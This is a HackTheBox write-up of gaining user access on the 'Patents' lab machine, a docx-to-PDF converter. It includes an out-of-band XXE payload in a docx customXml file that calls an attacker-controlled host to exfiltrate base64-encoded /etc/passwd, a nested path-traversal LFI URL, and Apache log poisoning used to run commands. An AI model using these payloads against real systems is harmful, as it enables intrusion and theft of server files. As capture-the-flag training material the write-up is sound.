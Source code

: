 # HackTheBox | Patents [User]

![](images/status-card.png)

## Enumeration

We begin with an nmap scan. We find open TCP ports: 22, 80, 8888

```
# Nmap 7.80 scan initiated Fri May 15 20:51:44 2020 as: nmap -sV -sC -oA nmap/patents 10.10.10.173
Nmap scan report for 10.10.10.173
Host is up (0.14s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 39:b6:84:a7:a7:f3:c2:4f:38:db:fc:2a:dd:26:4e:67 (RSA)
|   256 b1:cd:18:c7:1d:df:57:c1:d2:61:31:89:9e:11:f5:65 (ECDSA)
|_  256 73:37:88:6a:2e:b8:01:4e:65:f7:f8:5e:47:f6:10:c4 (ED25519)
80/tcp   open  http            Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: MEOW Inc. - Patents Management
8888/tcp open  sun-answerbook?
| fingerprint-strings: 
|   Help, LPDString, LSCP: 
|_    LFM 400 BAD REQUEST
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8888-TCP:V=7.80%I=7%D=5/15%Time=5EBF473F%P=x86_64-pc-linux-gnu%r(LS
SF:CP,17,"LFM\x20400\x20BAD\x20REQUEST\r\n\r\n")%r(Help,17,"LFM\x20400\x20
SF:BAD\x20REQUEST\r\n\r\n")%r(LPDString,17,"LFM\x20400\x20BAD\x20REQUEST\r
SF:\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 15 20:53:25 2020 -- 1 IP address (1 host up) scanned in 100.41 seconds
```

We take a look at the webpage and find that we can upload Docx files that are converted to PDFs for us to download.

We upload a sample Docx file created with python and we are able to download the converted pdf.

```python
#!/usr/bin/python3 

from docx import Document

document = Document()

document.add_heading('Document Title', 0)

p = document.add_paragraph('this is some text')

document.save('valid.docx')
```

Once we upload the document we are able to download the pdf.

![](images/download-patent.png)

We can see the downloaded pdf contents exist as a file on the server.

![](images/converted-pdf.png)

We attempt XXE but are unsuccessful.

Our initial gobuster shows several directories:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.173/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/15 21:41:53 Starting gobuster
===============================================================
/index (Status: 200)
/profile (Status: 200)
/uploads (Status: 301)
/static (Status: 301)
/upload (Status: 200)
/release (Status: 301)
/vendor (Status: 301)
/patents (Status: 301)
/output (Status: 301)
Progress: 27859 / 220561 (12.63%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/05/15 21:47:56 Finished
===============================================================

```

Further enumeration reveals a changelog left by a developer in /releases.

We use ffuf with raft-large-files.txt to find the changelog left on the server with the name UpdateDetails.

```
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-large-words.txt -u http://10.10.10.173/release/FUZZ -t 100 -mc 200
```

![](images/fuff-changelog.png)

UpdateDetails:
```
v1.2 alpha:
- meow@conquertheworld: Added ability to include patents. Still experimental, it's hidden.
v1.1 release:
- gbyolo@htb: Removed "meow fixes", they weren't real fixes. 
v1.0 release:
- meow@conquertheworld: Fixed the following vulnerabilities:
        1. Directory traversal
        2. Local file inclusion (parameter)
v0.9 alpha:
- meow@conquertheworld.htb: Minor fixes, fixed 2 vulnerabilities. The Docx2Pdf App is ready.
v0.7 alpha:
- gbyolo@tb: fixed conversion parameters. Meow's changes for custom folder should now work.
v0.7 alpja:
- meow@conquertheworld.htb: enabled entity parsing in custom folder
- gbyolo@htb: added conversion of all files, to generate pdf compliant from docx
v0.6 alpha:
- gbyolo@htb: enabled docx conversion to pdf. Seems to work!
```


This changelog tells us two things:
 - There is a potential vulnerability via LFI that was left unpatched
 - We have to exploit via parameter in the *custom* directory

## Initial Foothold

Taking a look at the structure of the Docx file we can see there is a cusomXML directory.

![](images/docx-structure.png)

We find a potential exploit on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

![](xxe-oob-dtd.png)

We inject the code into our ``` customXml/item1.xml ``` file:

```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://10.10.14.31/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
<b:Sources xmlns:b="http://schemas.openxmlformats.org/officeDocument/2006/bibliography" xmlns="http://schemas.openxmlformats.org/officeDocument/2006/bibliography" SelectedStyle="/APA.XSL" StyleName="APA"/>
```

Now we set up our local file that will be called ```dtd.xml```
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.10.14.31/dtd.xml?%data;'>">
```

We set up a python server and upload and convert our exploit. We get the contents of /etc/passwd encoded in base64.

![](images/etc-passwd-base64.png)

We decode this and our response was valid. We can read information on the system!

![](images/etc-passwd.png)


We continue hunting for files and we are able to exfiltrate the config.php file at ```/var/www/html/docx2pdf/config.php```

```php
<?php
# needed by convert.php
$uploadir = 'letsgo/';

# needed by getPatent.php
# gbyolo: I moved getPatent.php to getPatent_alphav1.0.php because it's vulnerable
define('PATENTS_DIR', '/patents/');
?>
```

This points us to a new file. Upon browsing to the file, we can see that there is an **id** parameter.

![](images/alphav1.png)

We can exploit this again via LFI using a nested path traversal string:

```http://10.10.10.173/getPatent_alphav1.0.php?id=....//....//....//....//....//etc/passwd```

![](images/lfi-etc-passwd.png)

We see that we can read the apache log file

![](images/apache-log-file.png)

We can poison this with netcat by injecting php code into the log, that is executed when we pass the parameter and command into the url.

![](images/netcat-poison.png)

Now we can browse to
```
http://10.10.10.173/getPatent_alpha1.0.php?c=whoami&id=....//....//....//....//var/log/apache2/access.log
```
to see the execute of ```whoami``` in the log.

![](images/php-whoami.png)

We can use this to get a reverse shell.

![](images/initial-foothold.png)


## Pivoting to User

Now that we are on the box, we need to escalate to root of the container.

Using pspy, we are able to see the ouput of a script that runs that contains the root password of the docker container that we are in.

![](images/pspy.png)

We use this password (removing the escape slashes in front of $) with
```
su root
```

And we have User!

![](images/user.png)
